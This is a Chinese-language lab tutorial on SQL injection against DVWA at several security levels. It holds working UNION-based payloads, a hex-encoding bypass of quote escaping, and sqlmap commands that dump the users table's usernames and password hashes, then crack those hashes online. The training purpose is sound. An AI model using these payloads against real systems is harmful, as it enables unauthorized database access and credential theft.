






<!--more-->

# 5. SQL 注入攻击实战

#### 5.1 SQL 注入概述

　　所谓 SQL 注入，就是通过把 SQL 命令插入到 Web 表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的 SQL 命令。它是利用现有应用程序，将（恶意的）SQL 命令注入到后台数据库引擎执行的能力，它可以通过在 Web 表单中输入（恶意）SQL 语句得到一个存在安全漏洞的网站上的数据库，而不是按照设计者意图去执行 SQL 语句。

　　SQL 注入一般按照注入方式可以分为普通注入和盲注。普通注入就是注入的页面是直接显示数据库中的字段内容的，我们可以通过 SQL 注入一步一步把数据库中我们想要的内容显示在页面中。而盲注则要困难很多，页面并没有直接显示数据库字段内容，显示的可能只是一个判断结果（是或者否），页面只能告诉你你构造的 SQL 语句对还是错，你要查询的内容存在还是不存在。这种情况下，我们只能全部靠猜。更有甚者，连是否的结果都不显示，我们可能还需要通过返回数据的延迟来判断是否猜对。

　　SQL 注入按照注入的数据类型还可以分为数字型注入和字符型注入。SQL 注入一般都需要利用 Web 站点现有的查询语句。当现有的查询语句 Where 筛选条件匹配的字段是数值类型，那么就是数字型注入；如果匹配的字段是字符类型，那么就是字符型注入。一般字符型注入需要构造单引号用于闭合语法，还需要加入注释符使原本的单引号无效。

　　另外，SQL 注入按照提交参数方式，还可以分为 GET 方式注入、POST 方式注入等等。

## 　　

#### 5.2 Low 级别 SQL 注入实战

##### 5.2.1 手工注入

1. 设置安全级别为 Low 后，点击 `SQL Injection` 进入 SQL 注入练习页面。首先在文本框随便输入一个 ID 号，发现可以返回用户信息。同时发现 URL 中出现了提交的参数信息，说明该页面提交方式为 GET，如图 5-1

   

   

   图 5-1

   

2. 在文本框中输入 `1‘`，发现页面报错，说明单引号被执行，存在 SQL 注入漏洞，并从报错信息中得知该站点的数据库为 MySQL，如图 5-2，图 5-3

   

   

   图 5-2

   

   

   

   图 5-3

   

3. 在文本框中输入 `1 and 1=1` 和 `1 and 1=2`，都能返回数据，说明可能注入漏洞不是数字型，如图 5-4，图 5-5

   

   

   图 5-4

   

   

   

   图 5-5

   

4. 在文本框输入 `1' and 1=1#`，可以返回数据，输入 `1' and 1=2#`，没有数据返回，说明注入成功，确认漏洞为字符型，如图 5-6，图 5-7

   

   

   图 5-6

   

   

   

   图 5-7

   

5. 在文本框输入 `1' order by 1` 和 `1' order by 2`，有数据返回，输入 `1' order by 3`，页面报错，说明本页面只查询了 2 个字段，如图 5-8，图 5-9，图 5-10

   

   

   图 5-8

   

   

   

   图 5-9

   

   

   

   图 5-10

   

6. 在文本框输入 `1' and 1=2 union select 1,2#`，确认页面中 First name 处显示的是记录集中第一个字段，Surname 处显示的是记录集中第二个字段，如图 5-11

   

   

   图 5-11

   

7. 在文本框输入 `1' and 1=2 union select database(),2#`，原第一个字段处显示当前数据库名称为 `dvwa`，如图 5-12

   

   

   图 5-12

   

8. 在文本框输入 `1' and 1=2 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#`，原第二个字段处显示当前数据库中的所有表名。发现 `guestbook` 表和 `users` 表，`users` 表中极有可能是记录用户名和密码的表，如图 5-13

   

   

   图 5-13

   

9. 在文本框输入 `1' and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_name='users'#`，原第二个字段处显示 `users` 表中的所有字段名。其中发现 `user` 和 `password` 字段，极有可能是用户名和密码字段，如图 5-14

   

   

   图 5-14

   

10. 在文本框输入 `1' and 1=2 union select user,password from users#`，原第一个字段和第二个字段处分别显示表中的用户名和密码，如图 5-15

    

    

    图 5-15

    

11. 在 http://www.cmd5.com 破解 MD5 加密的密码，即可得到密码明文，如图 5-16

    

    

    图 5-16

    

##### 5.2.2 SQLMap 自动化注入

1. 在 Kali 中访问 DVWA ，安全级别设置为 Low，进入 SQL 注入模块，随意输入 ID 值，并复制当前 URL 地址，如图 5-17

   

   

   图 5-17

   

2. 由于 `DVWA` 需要登录才能访问该页面，所以使用 `SQLMap` 工具自动化注入时，需要获取当前的 Cookie 值，我们可以在反射型 XSS 的练习模块中获取当前的 `Cookie`。点击 `XSS Reflected`，在文本框中输入 `>`，提交后即可显示当前 Cookie，如图 5-18

   

   

   图 5-18

   

3. 复制当前 `URL` 地址，打开 `Kali` 的终端，使用 `SQLMap` 命令 `sqlmap -u "http://192.168.75.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie 'security=low; PHPSESSID=ni3gsltihh60r1q50tiu45l8p3' --dbs`，可以自动探测出当前数据库名，如图 5-19

   

   

   图 5-19

   

4. 使用 SQLMap 命令 `sqlmap -u "http://192.168.75.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie 'security=low; PHPSESSID=ni3gsltihh60r1q50tiu45l8p3' -D dvwa --table`，可以自动探测出 dvwa 数据库中的所有表名，如图 5-20

   

   

   图 5-20

   

5. 使用 `SQLMap` 命令 `sqlmap -u "http://192.168.75.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie 'security=low; PHPSESSID=ni3gsltihh60r1q50tiu45l8p3' -D dvwa -T users --column`，可以自动探测出 users 表中的所有字段名，如图 5-21

   

   

   图 5-21

   

6. 使用 `SQLMap` 命令 `sqlmap -u "http://192.168.75.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie 'security=low; PHPSESSID=ni3gsltihh60r1q50tiu45l8p3' -D dvwa -T users -C user,password --dump`，可以自动探测出用户名和密码内容，并自动 `MD5` 解密，如图 5-22。中途需要手动输入 `Y` 进行确认

   

   

   图 5-22

   

------

#### 5.3 Medium 级别 SQL 注入实战

##### 5.3.1 手工注入

1. 安全级别设置为 `Medium` 后，再次进入 `SQL` 注入模块，发现没有了文本框，随便选择一个 `ID` 后，可以返回数据，且 `URL` 上没有显示任何参数，说明该页面为 `POST` 提交方式。由于页面中没有提供输入信息的接口，所以需要使用 `Burpsuite` 等工具来构造 `POST` 包，如图 5-23

   

   

   图 5-23

   

2. 运行 `Burpsuite`，并设置好浏览器代理，如图 5-24，图 5-25

   

   

   图 5-24

   

   

   

   图 5-25

   

3. 再次到 SQL 注入页面随便选择一个 ID 值，点击提交，该数据包会被 `Burpsuite` 拦截并显示，如图 5-26

   

   

   图 5-26

   

4. 在 ID 值后加入 ' 单引号，并点击 `Forward` 按钮，浏览器报错，发现同样存在 SQL 注入漏洞，如图 5-27，图 5-28

   

   

   图 5-27

   

   

   

   图 5-28

   

5. 再次随意选择 ID 值，在 `Burpsuite` 拦截的包中 `id=1` 后加上 `and 1=1`，可以返回数据，加上 `and 1=2`，没有数据返回，确认 `SQL` 注入点为数字型，如图 5-29，图 5-30，图 5-31，图 5-32

   

   

   图 5-29

   

   

   

   图 5-30

   

   

   

   图 5-31

   

   

   

   图 5-32

   

6. 再次拦截数据包，加入 `and 1=2 union select 1,2`，确认页面中 `First name` 处显示的是记录集中第一个字段，`Surname` 处显示的是记录集中第二个字段，如图 5-33，图 5-34

   

   

   图 5-32

   

   

   

   图 5-32

   

7. 查询数据库名、表名方法与 `Low` 级别思路一致，只不过不需要单引号和 `#` 来闭合语法

8. 拦截数据包，加入 `and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_name='users'` 来查询字段名时，发现页面报错，如图 5-33，图 5-44

   

   

   图 5-33

   

   

   

   图 5-34

   

9. 先暂时关掉 `Burpsuite` 的代理功能，在页面中点击 `View Source`，查看当前源码，发现对提交的 ID 值添加了 `mysql_real_escape_string` 函数，该函数会对单引号进行转义，从而导致 SQL 语句构造不成功，如图 5-35，图 5-36

   

   

   图 5-35

   

   

   

   图 5-36

   

10. 对表名 `users` 进行 16 进制 HEX 编码，就可以无需使用单引号。`users HEX` 编码后为 `0x7573657273`（网上有网站可以对字符进行在线 HEX 编码，可自行搜索）。重新开启 `Burpsuite` 的代理功能后，在拦截的包中加入 `and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273`，可以成功查询出字段名，如图 5-37，图 5-38

    

    

    图 5-37

    

    

    

    图 5-38

    

11. 拦截数据包，加入 `and 1=2 union select user,password from users`，可以成功查询出用户名和密码的内容，如图 5-39

    

    

    图 5-39

    

##### 5.3.2 SQLMap 自动化注入

1. 使用 `SQLMap` 自动完成 `POST` 注入，需要把正常 `POST` 包的内容复制到一个 `txt` 文档，再调用文档来进行注入。先使用 `Burpsuite` 拦截正常 `POST` 包，右键 - 选择 `Copy to file` 复制到 `/root/post.txt`，关闭 `Burpsuite` 的代理功能，再使用命令 `sqlmap -r /root/post.txt --dbs`，来查询数据库名称，如图 5-40

   

   

   图 5-39

   

   

   

   图 5-40

   

   

   

   图 5-41

   

2. 使用 SQLMap 命令 `sqlmap -r /root/post.txt -D dvwa --table`，查询表名

3. 使用 SQLMap 命令 `sqlmap -r /root/post.txt -D dvwa -T users --columns`，查询字段名

4. 使用 SQLMap 命令 `sqlmap -r /root/post.txt -D dvwa -T users -C user,password --dump`，查询用户名和密码内容

------

#### 5.4 High 级别 SQL 注入实战

1. 设置安全级别为 `High`，点开 SQL 注入页面，发现没有输入框，点击 `here to change your ID`，跳转到新窗口输入查询信息。分离了输入页面和显示结果页面，防止使用 `SQLMap` 等工具进行自动化注入。同时，确认该页面参数提交方式为 `POST`，如图 5-42

   

   

   图 5-42

   

2. 分析页面源码，发现加入了 `LIMIT 1` 来限制 SQL 语句最多只查询出一条记录，导致无法正使用常规注入手段来爆出数据库中其他内容，如图 5-43

   

   

   图 5-43

   

3. 在文本框输入 `1'`，发现页面报错，但是报错内容被替换，无法得知数据库类型，如图 5-44

   

   

   图 5-44

   

4. 在文本框中输入 `1’ and 1=1#`，注释掉后面的 `LIMIT 1` 命令使其无效，可以返回数据，加入 `1‘ and 1=2#`，没有返回数据，说明仍存在 SQL 注入漏洞，并确认漏洞为字符型，如图 5-45，图 5-46 所示

   

   

   图 5-45

   

   

   

   图 5-46

   

5. 后续注入步骤与 `Low` 级别思路一致，不再赘述

------

#### 5.4 Impossible 级别 SQL 注入

　　设置安全级别为 `Impossible`，查看 SQL 注入页面源码，发现使用了 `PDO` 技术，几乎彻底杜绝了 SQL 注入，如图 5-47
　　

图 5-47